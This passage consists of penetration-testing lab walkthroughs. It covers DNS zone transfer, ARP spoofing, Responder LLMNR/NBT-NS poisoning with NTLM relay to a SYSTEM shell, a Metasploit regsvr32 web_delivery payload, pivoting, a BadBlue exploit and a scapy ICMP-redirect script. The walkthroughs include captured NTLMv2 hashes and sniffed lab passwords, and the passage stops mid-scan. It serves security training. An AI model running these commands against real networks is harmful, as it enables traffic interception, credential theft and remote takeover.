; EDNS: version: 0, flags:; udp: 4096
;; QUESTION SECTION:
;6.5.16.172.in-addr.arpa.       IN      PTR

;; ANSWER SECTION:
6.5.16.172.in-addr.arpa. 86400  IN      PTR     wkst-finance.sportsfoo.com.16.172.in-addr.arpa. ←

;; Query time: 0 msec
;; SERVER: 172.16.5.10#53(172.16.5.10)
;; WHEN: Tue Feb 20 10:44:56 EST 2024
;; MSG SIZE  rcvd: 112
```

- *List additional hosts using DNS Zone Transfer*. Once discovered the Domain Name and DNS Server, check if you are able to identify further hosts using DNS Zone Transfer. Can you tell why the new hosts were not found using ARP requests?

`dig -t AXFR @172.16.5.10 sportsfoo.com +nocookie`:
```
; <<>> DiG 9.16.15-Debian <<>> -t AXFR @172.16.5.10 sportsfoo.com +nocookie
; (1 server found)
;; global options: +cmd
sportsfoo.com.          86400   IN      SOA     ine-labserver.sportsfoo.com. hostmaster.sportsfoo.com. 2011071001 3600 1800 604800 86400
sportsfoo.com.          86400   IN      NS      ine-labserver.sportsfoo.com.
ftp.sportsfoo.com.      86400   IN      A       10.10.10.6 ←
ine-labserver.sportsfoo.com. 86400 IN   A       172.16.5.10
intranet.sportsfoo.com. 86400   IN      A       10.10.10.10 ←
wkst-finance.sportsfoo.com. 86400 IN    A       172.16.5.6
wkst-techsupport.sportsfoo.com. 86400 IN A      172.16.5.5
sportsfoo.com.          86400   IN      SOA     ine-labserver.sportsfoo.com. hostmaster.sportsfoo.com. 2011071001 3600 1800 604800 86400
;; Query time: 11 msec
;; SERVER: 172.16.5.10#53(172.16.5.10)
;; WHEN: Tue Feb 20 10:37:07 EST 2024
;; XFR size: 8 records (messages 1, bytes 276)
```

Zone Transfers are usually misconfigurations of a DNS server. They should be enabled, if required, only for trusted IP addresses (usually trusted downstream name servers).

When zone transfers are open to anyone, we can enumerate the whole DNS records for that zone.

The preceding command asks the DNS Server `172.16.5.10` to list all of its records (full zone transfer `-t AXFR`) for the domain name: `sportsfoo.com`. Note that we were able to discover two new hosts: `10.10.10.6` and `10.10.10.10`, that belong to a different network: `10.10.10.x`.

Note that we were not able to identify these hosts previously because our ARP scan was performed within another network, `172.16.5.0/24`. Furthermore, ARP broadcast requests can be sent only in the same broadcast domain. Thus they were unreachable.

Important: You'll notice in the previous dig commands we're using the `+nocookie` option with the command line. This is used to mitigate an error due to the way Microsoft DNS servers respond to the default "dig" options which send a DNS Cookie by default. Take note of this for future reference.

3. *Identify the default gateway for the `172.16.5.0/24` network*.
According to the previous task, you have been able to identify two different networks. You have to identify the default gateway which is handling the communication between these networks. How can you do that?

To identify a default gateway, one of the possible methods is to track packets taken from an IP network on their way to a given host. The command traceroute does exactly that.

`traceroute 10.10.10.10 -m 5`:
```
traceroute to 10.10.10.10 (10.10.10.10), 5 hops max, 60 byte packets
 1  172.16.5.1 (172.16.5.1)  0.558 ms  0.106 ms  0.186 ms ←
 2  10.10.10.10 (10.10.10.10)  0.456 ms  0.459 ms  0.427 ms
```

4. *Draw a network map*.
Draw a network map of your findings in order to represent graphically the environment discovered so far.

| Attacker machine        | Subnet         | Default gateway |
|-------------------------|----------------|-----------------|
| 172.16.5.101            | 172.16.5.0/24  | 172.16.5.1      |
|                         | 10.10.10.0/24  |                 |

| Domain name                       | IP address			   |
|-----------------------------------|--------------------------|
| wkst-techsupport.sportsfoo.com    | 172.16.5.5			   |
| wkst-finance.sportsfoo.com        | 172.16.5.6     		   |
| ine-labserver.sportsfoo.com       | 172.16.5.10 (DNS server) |
| ftp.sportsfoo.com                 | 10.10.10.6			   |
| intranet.sportsfoo.com            | 10.10.10.10			   |


5. *Capture traffic between `172.16.5.5` and `172.16.5.1`*.
Sniff the traffic between the hosts `172.16.5.5` and `172.16.5.1`. Keep yourself sniffing for around 5 minutes, then save the network traffic as `task5.pcap`.
Make sure you are able to see all the images while you are sniffing.

Enable IP forwarding on your system: `echo 1 > /proc/sys/net/ipv4/ip_forward`.

Then, we need to trick our targets and tell `172.16.5.5` that every time it needs to communicate to `172.16.5.1`, it has to pass from the PENTESTER system and vice-versa.

`arpspoof -i eth1 -t 172.16.5.5 -r 172.16.5.1`, `arpspoof -i eth1 -t 172.16.5.1 -r 172.16.5.5`.

The commands above will keep sending ARP packets to our targets in order to poison the ARP table of both hosts.

The ARP table will be poisoned so that every time `172.16.5.5` needs to communicate to the `172.16.5.1`, instead of reaching the MAC Address of the host `172.16.5.1`, it will reach the attacker's MAC address in this case, our box.

Next, in order to see if there are any images in the traffic between these hosts, let's launch driftnet while our arspoof attacks are running: `driftnet -i eth1`.

6. *Capture traffic between `172.16.5.6` and `172.16.5.1`*.
Sniff the traffic between the hosts `172.16.5.6` and `172.16.5.1`. Keep yourself sniffing for around 5 minutes, then save the network traffic as `task6.pcap`.
Make sure you are able to see all the images while you are sniffing.

`arpspoof -i eth1 -t 172.16.5.6 -r 172.16.5.1`, `arpspoof -i eth1 -t 172.16.5.1 -r 172.16.5.6`.

7. *Capture traffic between `172.16.5.6` and `172.16.5.10`*.
Sniff the traffic between the hosts `172.16.5.6` and `172.16.5.10`. Keep yourself sniffing for around 5 minutes, then save the network traffic as `task7.pcap`.

`arpspoof -i eth1 -t 172.16.5.6 -r 172.16.5.10`, `arpspoof -i eth1 -t 172.16.5.10 -r 172.16.5.6`.

8. *Analyze the task5 capture*.
Understand the big picture of the network traffic gathered. Before diving into packet analysis of the Task5 capture, try to get an overview of what kind of traffic we have captured. Identify the most used protocols.

To get an overview of what kind of traffic we have captured, we have to open the `Task5.pcap` capture file and then from the menu: `Statistics` > `Protocol Hierarchy`.
According to that, we can see that from all the captured traffic, we got 11.9% from ARP, 4.3% HTTP, 1.1% FTP, etc.

- Analyze the HTTP traffic

	- Part 1. Restrict the packet analysis to only HTTP traffic and exclude the traffic from and to your machine from the analysis. The HTTP protocol consists of a couple of different commands (full details are available on the RFC 2616).

	The Wireshark filter should be as follows: `http and ip.addr != 172.16.5.101`.

	- Part 2. Find at least 2 HTTP requests which are not secure but that don't seem to contain confidential information.

	After analyzing the HTTP traffic, we were able to understand that it's a protocol that consists of HTTP requests and responses. Also all of the traffic transmitted in HTTP is also transmitted in clear-text.
	SSL is the protocol that implements security for the HTTP protocol. When you use SSL, all of your strings are not transmitted in clear text, so even if someone is able to capture your traffic, it will be a hard time to try to decrypt it in order to understand what's going on.
	Since the protocol hierarchy did not contain any SSL packet, it indicates that all HTTP packets are in clear text.

	One of the main commands used on the HTTP protocol is the HTTP `GET` request, that are usually used when you want to retrieve a file from a webserver.

	By using the following filter in Wireshark: `http.request.method == "GET"`, we can see that the user is essentially downloading some images, so not a big deal.

	We can then Right-Click on the HTTP stream and select the `Follow` and then `HTTP Stream` option to view the raw HTTP data.

	- Part 3. Find at least 2 HTTP requests which are really insecure and expose your client to big problems, such as identity theft, privilege escalation, etc.

	The HTTP `POST` request is usually used when a user wants to submit information to the webserver (like filling a form). So, it is definitively something that we want to check in order to see if critical information is being transmitted in clear text.
	
	We can do that by creating the following filter in Wireshark: `http.request.method == "POST"`.

	```

	```

	According to the POST request above, we are able to see an attempt to login on the `http://intranet.sportsfoo.com` website by submitting the username `bcaseiro` and the password `#MySecretPassword`. However, it looks like it failed because the server answered with a HTTP 302 code which is redirecting the user to a page named `notheremyfriend.php`. Even if this credential is not valid for this website, an attacker might want to use that credential when attacking other resources.

	On the same window (`Follow`, `HTTP Stream`), click in the button named `Filter Out This stream`, so Wireshark will exclude temporary this request from the remaining packets, so you can continue your analysis.

	You will have to repeat the procedure above until you find a valid credential.

	```
	
	```

	According to the example above, we were able to obtain a valid credential. While the password `et1@sR7!` used by the user admin is a strong one, it doesn't help since it is being transmitted in clear text.

- Analyze the FTP traffic

	- Part 1. Restrict the packet analysis to only FTP traffic.

	- Part 2. List the FTP commands issued by `172.16.5.5`.

	- Part 3. What is the username and password used during that FTP connection?


---

### NBT-NS Poisoning and Exploitation with Responder - Lab

In this lab, you will learn to perform MiTM (Man-In-The-Middle) attack and exploit windows target machines.

In this lab environment, the user will get access to a Kali GUI instance. Your task is to run attacks on the `172.16.5.10` IP address. All the required tools are installed on the Kali machine.

Please note the target machine's architecture is `x86`. So, we need to use only `x86` supported payload and executables.

Objective: Exploit both the target machines.

The best tools for this lab are:
- Nmap
- Metasploit Framework
- Responder
- MultiRelay

Note: MultiRelay tool is available in `/usr/share/responder/tools` directory. 

---

**Step 1**.

`ip addr | grep "inet"`:
```
    inet 127.0.0.1/8 scope host lo
    inet6 ::1/128 scope host 
    inet 192.168.0.3/24 brd 192.168.0.255 scope global adlab0
    inet6 fe80::a00:27ff:fef9:76b6/64 scope link 
    inet 172.16.5.101/24 brd 172.16.5.255 scope global eth1 ←
    inet6 fe80::a00:27ff:fed4:ee5d/64 scope link 
```

`nmap -sn -n 172.16.5.0/24`:
```
Starting Nmap 7.91 ( https://nmap.org ) at 2022-01-21 19:21 EST
Nmap scan report for 172.16.5.1
Host is up (0.00031s latency).
MAC Address: 0A:00:27:00:00:03 (Unknown)
Nmap scan report for 172.16.5.10 ←
Host is up (0.00054s latency).
MAC Address: 08:00:27:7F:4F:D8 (Oracle VirtualBox virtual NIC)
Nmap scan report for 172.16.5.25 ←
Host is up (0.00070s latency).
MAC Address: 08:00:27:8F:79:CC (Oracle VirtualBox virtual NIC)
Nmap scan report for 172.16.5.101
Host is up.
Nmap done: 256 IP addresses (4 hosts up) scanned in 2.55 seconds
```

`nmap -sS -sV 172.16.5.10 172.16.5.25`:
```
Starting Nmap 7.91 ( https://nmap.org ) at 2022-01-21 19:22 EST
Nmap scan report for 172.16.5.10 ←
Host is up (0.00048s latency).
Not shown: 988 closed ports
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn ←
445/tcp   open  microsoft-ds       Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP) ←
3389/tcp  open  ssl/ms-wbt-server?
5800/tcp  open  vnc-http           TightVNC (user: ine-labserver; VNC TCP port: 5900)
5900/tcp  open  vnc                VNC (protocol 3.8)
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49156/tcp open  msrpc              Microsoft Windows RPC
49157/tcp open  msrpc              Microsoft Windows RPC
MAC Address: 08:00:27:7F:4F:D8 (Oracle VirtualBox virtual NIC)
Service Info: Host: INE-LABSERVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Nmap scan report for 172.16.5.25 ←
Host is up (0.00052s latency).
Not shown: 989 closed ports
PORT      STATE SERVICE            VERSION
22/tcp    open  ssh                OpenSSH 6.7 (protocol 2.0)
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn ←
445/tcp   open  microsoft-ds       Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP) ←
3389/tcp  open  ssl/ms-wbt-server?
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49156/tcp open  msrpc              Microsoft Windows RPC
49157/tcp open  msrpc              Microsoft Windows RPC
MAC Address: 08:00:27:8F:79:CC (Oracle VirtualBox virtual NIC)
Service Info: Host: IE8WIN7; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 2 IP addresses (2 hosts up) scanned in 76.28 seconds
```

**Step 2**.

`ls -l /usr/share/responder`:
```
total 232
drwxr-xr-x 2 root root   4096 Jun  7  2021 certs
-rwxr-xr-x 1 root root   1870 Apr 20  2021 DumpHash.py
drwxr-xr-x 2 root root   4096 Jun  7  2021 files
-rw-r--r-- 1 root root   2523 Apr 20  2021 fingerprint.py
drwxr-xr-x 2 root root   4096 Jan 27  2022 logs
-rw-r--r-- 1 root root   3423 Apr 19  2021 odict.py
-rw-r--r-- 1 root root 136932 Apr 20  2021 packets.py
drwxr-xr-x 3 root root   4096 Jun  7  2021 poisoners
drwxr-xr-x 2 root root   4096 Jun  7  2021 __pycache__
-rwxr-xr-x 1 root root   3988 Apr 20  2021 Report.py
lrwxrwxrwx 1 root root     29 Apr 20  2021 Responder.conf -> /etc/responder/Responder.conf ←
-rwxr-xr-x 1 root root  15122 Apr 20  2021 Responder.py ←
-rwxr-xr-x 1 root root    127 Apr 20  2021 script
drwxr-xr-x 3 root root   4096 Jun  7  2021 servers
-rw-r--r-- 1 root root  11996 Apr 20  2021 settings.py
drwxr-xr-x 5 root root   4096 Jan 21 19:30 tools
-rw-r--r-- 1 root root  17345 Apr 20  2021 utils.py
```

`ls -l /usr/share/responder/tools`:
```
total 192
-rwxr-xr-x 1 root root  4784 Apr 20  2021 BrowserListener.py
-rwxr-xr-x 1 root root  2011 Apr 19  2021 DHCP_Auto.sh
-rwxr-xr-x 1 root root 17191 Apr 20  2021 DHCP.py
-rw-r--r-- 1 root root  6104 Apr 20  2021 DNSUpdate.py
-rwxr-xr-x 1 root root  1414 Apr 20  2021 FindSQLSrv.py
-rwxr-xr-x 1 root root 11876 Apr 20  2021 Icmp-Redirect.py
drwxr-xr-x 5 root root  4096 Jun  7  2021 MultiRelay
-rwxr-xr-x 1 root root 39644 Apr 20  2021 MultiRelay.py ←
-rw-r--r-- 1 root root  3447 Apr 19  2021 odict.py
drwxr-xr-x 2 root root  4096 Jun  7  2021 __pycache__
-rw-r--r-- 1 root root 65239 Apr 19  2021 RunFingerPackets.py
-rwxr-xr-x 1 root root 13322 Apr 20  2021 RunFinger.py ←
drwxr-xr-x 3 root root  4096 Jun  7  2021 SMBFinger
```

`./usr/share/responder/tools/RunFinger.py -i 172.16.5.10`:
```
[SMB2]:['172.16.5.10', Os:'Windows 7/Server 2008R2', Build:'7601', Domain:'INE-LABSERVER', Bootime: 'Last restart: 2022-01-25 00:43:37', Signing:'False', RDP:'True', SMB1:'Enabled']
```

`./usr/share/responder/tools/RunFinger.py -i 172.16.5.25`:
```
[SMB2]:['172.16.5.25', Os:'Windows 7/Server 2008R2', Build:'7601', Domain:'IE8WIN7', Bootime: 'Last restart: 2022-01-27 02:05:45', Signing:'False', RDP:'True', SMB1:'Enabled']
```

`nano /etc/responder/Responder.conf`:
```
SMB = On

...

HTTP = On
```

`./usr/share/responder/Responder.py -I eth1 --lm`:
```
[+] Listening for events...                                                                         

[*] [LLMNR]  Poisoned answer sent to 172.16.5.25 for name INE-LABServer-76
[*] [LLMNR]  Poisoned answer sent to 172.16.5.25 for name ine-labserver-76
[*] [LLMNR]  Poisoned answer sent to 172.16.5.25 for name ine-labserver-76
[*] [LLMNR]  Poisoned answer sent to 172.16.5.25 for name wpad
[*] [LLMNR]  Poisoned answer sent to 172.16.5.25 for name ine-labserver-76
[*] [LLMNR]  Poisoned answer sent to 172.16.5.25 for name ine-labserver-76
[WebDAV] NTLMv2 Client   : 172.16.5.25
[WebDAV] NTLMv2 Username : domain\aline
[WebDAV] NTLMv2 Hash     : aline::domain:fbbaad6c70f78d0a:182C9D40EA3C456AF654CB99003E048C:0101000000000000102DE986230FD801F888AA286E3BFCE10000000002000800450056003000340001001E00570049004E002D004100540045003300480043004F0049004D0058004F000400140045005600300034002E004C004F00430041004C0003003400570049004E002D004100540045003300480043004F0049004D0058004F002E0045005600300034002E004C004F00430041004C000500140045005600300034002E004C004F00430041004C000800300030000000000000000100000000200000F5A787878A3C891CEAB2DE83C483319E9C2323C3F7134DD67EDD8ACD4E4C464E0A0010000000000000000000000000000000000009002A0048005400540050002F0069006E0065002D006C00610062007300650072007600650072002D00370036000000000000000000 
[*] [LLMNR]  Poisoned answer sent to 172.16.5.25 for name INE-LABServer-77
[SMB] NTLMv2 Client   : 172.16.5.25
[SMB] NTLMv2 Username : domain\aline
[SMB] NTLMv2 Hash     : aline::domain:1dbbfa921de1c3d8:ED260FB5AE45A65C569C28D09F7809C7:010100000000000068DF268A230FD801B53B8E40CC81115100000000020000000000000000000000
```

While running the responder tool, we have captured the NTLMv2 hash from a client (`172.16.5.25`) of the "aline" user. The hash is stored in the `/usr/share/responder/logs` folder.

`ls /usr/share/responder/logs`:
```
Analyzer-Session.log  Poisoners-Session.log  SMB-NTLMv2-172.16.5.25.txt
Config-Responder.log  Responder-Session.log  WebDAV-NTLMv2-172.16.5.25.txt
```

`cat  /usr/share/responder/logs/`:
```
aline::domain:1dbbfa921de1c3d8:ED260FB5AE45A65C569C28D09F7809C7:010100000000000068DF268A230FD801B53B8E40CC81115100000000020000000000000000000000
aline::domain:1dbbfa921de1c3d8:ED260FB5AE45A65C569C28D09F7809C7:010100000000000068DF268A230FD801B53B8E40CC81115100000000020000000000000000000000
aline::domain:f2710391a1c14747:D868845DA1A8C27CDD3B9C861CF27372:01010000000000000214098E230FD80175C2BF005882959E00000000020000000000000000000000
aline::domain:1e8e23c2e6d8827b:52160FB3997E606AECD685EA4CB81CB8:0101000000000000E883E691230FD801EBF7EEE785C76CC900000000020000000000000000000000
aline::domain:0af0efd7bcd6e698:38130948ACA86F2740727D21A76ABE25:01010000000000007491C195230FD8015E49AF711F11CD6900000000020000000000000000000000
aline::domain:10917530700bf46c:08180AC14A00FC6A8EA6E6ED7F86CD8A:0101000000000000A63C9A99230FD801409920A9469B705300000000020000000000000000000000
aline::domain:aef3d3ff7f72cc1a:E11ECC51D6E62AC82E106819F9EC01B9:010100000000000040717C9D230FD80154D50D4EDCC0DE4600000000020000000000000000000000
aline::domain:0a650fef18aab212:12EB39BEB606B4B7189999C7CF96C674:0101000000000000B03049A1230FD801B4CA8A373BD2EA8600000000020000000000000000000000
aline::domain:e769a7df0dfc23c6:920592966810CB71EB3F1B4DEC46AD13:01010000000000007A5218A5230FD8012232AB33EBE299AB00000000020000000000000000000000
aline::domain:f10b14a27819ea47:588597A58D21824AE28CE91FE90D22E7:010100000000000090AFE2A8230FD80106E4959D87D703AA00000000020000000000000000000000
aline::domain:467e528c08d9ad2f:59B0F35F216CE448D5D7BA953EF96437:01010000000000000E96B6AC230FD8015910A47F0309C5DE00000000020000000000000000000000
aline::domain:463c68236672c534:7245D35FA87BCBBAE77F8109DBFA0984:0101000000000000321A88B0230FD80130427418B931B1ED00000000020000000000000000000000
aline::domain:6a1e7d364654eec7:DABEF47A6581B0D54A7B42836EB8F284:0101000000000000B0005CB4230FD801F2B3CC095C8DC0A000000000020000000000000000000000
aline::domain:685f9a32776a815a:F2A0E64C98C378364C13D41F95582BEE:0101000000000000967039B8230FD801533BCA5BB48CCCF800000000020000000000000000000000
aline::domain:8f99be90b248d810:DF0C2C0058B88A868A939FDDD4B4909D:01010000000000008A071EBC230FD801B52B5ABE7B045FCD00000000020000000000000000000000
aline::domain:1382992aaa4b5cbe:9D67413ECF5453689E2235B91BC83010:0101000000000000AE8BEFBF230FD80129DA91999DCE9B7100000000020000000000000000000000
aline::domain:950c4ad39da0daef:7EC259138788144416AEE7C76AC4231B:010100000000000086D4C5C3230FD8011FF89E153A5F63E500000000020000000000000000000000
aline::domain:d5f04bdadd460d51:8BC69556ABA8B0E4C04153A8AEA722D6:010100000000000004BB99C7230FD80160E6292CA776FBCA00000000020000000000000000000000
```

**Step 3**.

`ls /usr/share/responder/tools/MultiRelay/bin`:
```
Runas.c  Runas.exe  Syssvc.c  Syssvc.exe
```

`file /usr/share/responder/tools/MultiRelay/bin/Runas.exe`:
```
/usr/share/responder/tools/MultiRelay/bin/Runas.exe:  PE32+ executable (console) x86-64, for MS Windows
```

`file /usr/share/responder/tools/MultiRelay/bin/Syssvc.exe`:
```
/usr/share/responder/tools/MultiRelay/bin/Syssvc.exe: PE32+ executable (console) x86-64, for MS Windows
```

The MultiRelay.py script uses `Runas.exe` and `Syssvc.exe`. These executables are `x86-64`. We need an `x86` compiled executable. Let's remove both these executables and compile x86 one. The source code of the both executable present in the `/usr/share/responder/tools/MultiRelay/bin` directory.

`rm /usr/share/responder/tools/MultiRelay/bin/Runas.exe`.
`rm /usr/share/responder/tools/MultiRelay/bin/Syssvc.exe`.

`i686-w64-mingw32-gcc /usr/share/responder/tools/MultiRelay/bin/Runas.c -o /usr/share/responder/tools/MultiRelay/bin/Runas.exe -municode -lwtsapi32 -luserenv`.
`i686-w64-mingw32-gcc /usr/share/responder/tools/MultiRelay/bin/Syssvc.c -o /usr/share/responder/tools/MultiRelay/bin/Syssvc.exe -municode`.

We are all set to run the MultiRelay script.

``./usr/share/responder/tools/MultiRelay.py -t 172.16.5.10 -u ALL`.

Once we run the MultiRelay script, open another terminal and rerun the responder tool.

`./usr/share/responder/Responder.py -I eth1 --lm`.

As soon as we run the responder tool. We should expect a responder's interactive shell.

`whoami`:
```
nt authority\system
```

We have successfully obtained an interactive shell with `nt authority\system` privilege.

**Step 4**.

Let's upgrade our MultiRelay shell to a meterpreter one to conduct additional recon and use tools available in Metasploit Framework. We'll do this with Metasploit's `web_delivery` module.

`msfconsole -q`, `search web delivery`, `use exploit/multi/script/web_delivery`, `show options`, `set PAYLOAD windows/meterpreter/reverse_tcp`, `set LHOST 172.16.5.101`, `show targets`, `set TARGET Regsvr32`, `exploit`:
```
[*] Local IP: http://192.168.0.3:8080/Ycsi8OrIZ1R0Aru
[*] Server started.
[*] Run the following command on the target machine:
regsvr32 /s /n /u /i:http://172.16.5.101:8080/Ycsi8OrIZ1R0Aru.sct scrobj.dll
```

`regsvr32 /s /n /u /i:http://172.16.5.101:8080/Ycsi8OrIZ1R0Aru.sct scrobj.dll`.

`sessions -i 1`, `sysinfo`:
```
Computer        : INE-LABSERVER
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x86/windows
```

**Step 5**.

`ipconfig`:
```
Interface  1
============
Name         : Software Loopback Interface 1
Hardware MAC : 00:00:00:00:00:00
MTU          : 4294967295
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0
IPv6 Address : ::1
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff


Interface 11
============
Name         : Microsoft ISATAP Adapter
Hardware MAC : 00:00:00:00:00:00
MTU          : 1280
IPv6 Address : fe80::5efe:ac10:50a
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff


Interface 15
============
Name         : Intel(R) PRO/1000 MT Desktop Adapter
Hardware MAC : 08:00:27:7f:4f:d8
MTU          : 1500
IPv4 Address : 172.16.5.10
IPv4 Netmask : 255.255.0.0
IPv6 Address : fe80::34ec:2548:7d92:265f
IPv6 Netmask : ffff:ffff:ffff:ffff::


Interface 16
============
Name         : Microsoft ISATAP Adapter #2
Hardware MAC : 00:00:00:00:00:00
MTU          : 1280
IPv6 Address : fe80::5efe:a64:2864
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff


Interface 17
============
Name         : Intel(R) PRO/1000 MT Desktop Adapter #2
Hardware MAC : 08:00:27:2c:70:e4
MTU          : 1500
IPv4 Address : 10.100.40.100 ←
IPv4 Netmask : 255.255.255.0 ←
IPv6 Address : fe80::1020:455b:7b7e:f602
IPv6 Netmask : ffff:ffff:ffff:ffff::
```

`exit`, `run arp_scanner -r 10.100.40.100/24`:
```
[*] ARP Scanning 10.100.40.100/24
[*] IP: 10.100.40.100 MAC 08:00:27:2c:70:e4
[*] IP: 10.100.40.107 MAC 08:00:27:46:4d:f6 ←
[*] IP: 10.100.40.255 MAC 08:00:27:2c:70:e4
```

`run autoroute -s 10.100.40.100/24`, `run autoroute -p`:
```
[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   10.100.40.100      255.255.255.0      Session 1
```

`bg`, `search tcp scanner`, `use auxiliary/scanner/portscan/tcp`, `show options`, `set RHOSTS 10.100.40.107`, `run`:
```
[+] 10.100.40.107:        - 10.100.40.107:80 - TCP OPEN ←
[+] 10.100.40.107:        - 10.100.40.107:135 - TCP OPEN
[+] 10.100.40.107:        - 10.100.40.107:139 - TCP OPEN
[+] 10.100.40.107:        - 10.100.40.107:445 - TCP OPEN
```

**Step 6**.

`sessions -i 1`, `portfwd add -l 1234 -r 10.100.40.107 -p 80`, `portfwd list`:
```
Active Port Forwards
====================

   Index  Local             Remote        Direction
   -----  -----             ------        ---------
   1      10.100.40.107:80  0.0.0.0:1234  Forward

1 total active port forwards.
```

`bg`, `nmap -sS -sV localhost -p1234`:
```
Starting Nmap 7.91 ( https://nmap.org ) at 2022-01-21 19:49 EST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00016s latency).
Other addresses for localhost (not scanned): ::1

PORT     STATE SERVICE VERSION
1234/tcp open  http    BadBlue httpd 2.7 ←
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.58 seconds
```

`searchsploit badblue 2.7`, `search badblue 2.7`, `use exploit/windows/http/badblue_passthru`, `show options`, `set RHOSTS 10.100.40.107`, `set PAYLOAD windows/meterpreter/bind_tcp`, `exploit`.

We need to set "RHOSTS" (the target Machine IP Address). In this case, it is `10.100.40.107` where the badblue application is running.
Port `80` is by-default mentioned in the module, also `windows/meterpreter/reverse_tcp` payload is set along with "LHOST" and "LPORT" (Local Machine IP Address and Port) for reverse connection of the meterpreter shell.
The `10.100.40.107` machine is not accessible from the Kali machine, so we can't use the `reverse_tcp` payload. This is an essential step for us to choose the correct payload. In this case, we have to use the `bind_tcp` payload to gain the meterpreter session.
If we choose the `reverse_tcp` payload, then the exploit would work but won't give us a meterpreter session.

`sessions -i 2`, `sysinfo`:
```
Computer		: INE-WEBSERVER
OS				: Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture	: x86
System Language : en_US
Domain			: WORKGROUP
Logged On Users	: 1
Meterpreter		: x86/windows
```

`getuid`:
```
Server username: INE-WEBSERVER\aline
```

---

### ICMP Redirect Attack - Lab

In this lab scenario, you have to mount a man in the middle interception attack against the communication between a client and a server.

There are two networks:
- The client's network where you will be sitting together with a client machine.
- The server's network.

Here is the lab environment:


The client machine is using a web administration panel. Your goals are:
- Find the web administration panel.
- Identify the client machine.
- Steal some valid credentials for the web administration panel using an ICMP redirect attack.

What you Will Learn
- How to mount an innovative MITM attack.
- How ICMP redirect packets work.
- How to use scapy to create raw network packets.
- How to use the routing and firewalling features of the Linux kernel.

The best tool is your brain. Then you may need some of:
- Nmap
- Web Browser
- Wireshark
- Scapy

---

Tasks

1. Information Gathering.
Identify the server and client networks. Identify the victim client and the target server.

2. Configure your Machine to Perform IP Masquerading.
Issuing the following commands will let you configure your machine as a router NATting your victim address and hiding it from the router:
	- `echo 1 > /proc/sys/net/ipv4/ip_forward`.
	- `iptables -t nat -A POSTROUTING -s 10.100.13.0/255.255.255.0 -o eth1 -j MASQUERADE`.

3. Create an ICMP Redirect Script.
You can use the following scapy script to mount an ICMP redirect attack:
```
# Creating and sending ICMP redirect packets
originalRouterIP='<The router IP address>'
attackerIP='<Attacker IP Address>'
victimIP='<The Victim IP Address>'
serverIP='<The Web Server IP Address>'
# We create an ICMP Redirect packet
ip=IP()
ip.src=originalRouterIP
ip.dst=victimIP
icmpRedirect=ICMP()
icmpRedirect.type=5
icmpRedirect.code=1
icmpRedirect.gw=attackerIP
# The ICMP packet payload /should/ contain the original TCP SYN packet
# sent from the victimIP
redirPayloadIP=IP()
redirPayloadIP.src=victimIP
redirPayloadIP.dst=serverIP
fakeOriginalTCPSYN=TCP()
fakeOriginalTCPSYN.flags="S"
fakeOriginalTCPSYN.dport=80
fakeOriginalTCPSYN.seq=444444444
fakeOriginalTCPSYN.sport=55555
while True:
    send(ip/icmpRedirect/redirPayloadIP/fakeOriginalTCPSYN)
# Press <enter>
```

4. Intercept the Data with Wireshark.
Intercept the traffic exchanged between the victim machine and the target server and use it to get access to the web administration interface.

5. Access the Administration Panel.
Use the credentials found at the previous step to login into the web administration panel.

---

1. Information Gathering.
Identify the server and client networks. Identify the victim client and the target server.

`ip addr | grep "inet"`:
```
inet 127.0.0.1/8 scope host lo
    inet6 ::1/128 scope host 
    inet 192.168.0.3/24 brd 192.168.0.255 scope global adlab0
    inet6 fe80::a00:27ff:fef9:76b6/64 scope link 
    inet 10.100.13.20/24 brd 10.100.13.255 scope global eth1 ←
    inet6 fe80::a00:27ff:fed4:ee5d/64 scope link 
```

`nmap -sn -n 10.100.13.0/24`:
```
Starting Nmap 7.91 ( https://nmap.org ) at 2024-03-01 06:50 EST
Nmap scan report for 10.100.13.1
Host is up (0.00037s latency).
MAC Address: 0A:00:27:00:00:01 (Unknown)
Nmap scan report for 10.100.13.126 ←
Host is up (0.00060s latency).
MAC Address: 08:00:27:88:1B:CD (Oracle VirtualBox virtual NIC)
Nmap scan report for 10.100.13.20
Host is up.
Nmap done: 256 IP addresses (3 hosts up) scanned in 2.16 seconds
```

`nmap -sn -n 10.23.56.0/24`:
```
Starting Nmap 7.91 ( https://nmap.org ) at 2024-03-01 07:00 EST
Nmap scan report for 10.23.56.1
Host is up (0.00035s latency).
Nmap scan report for 10.23.56.100 ←
Host is up (0.00097s latency).
Nmap done: 256 IP addresses (2 hosts up) scanned in 32.19 seconds
```

`nmap -sT -sS 10.100.13.126`:
```
Starting Nmap 7.91 ( https://nmap.org ) at 2024-03-01 08:55 EST
Nmap scan report for 10.100.13.126
Host is up (0.00029s latency).
Not shown: 998 closed ports
PORT    STATE SERVICE VERSION
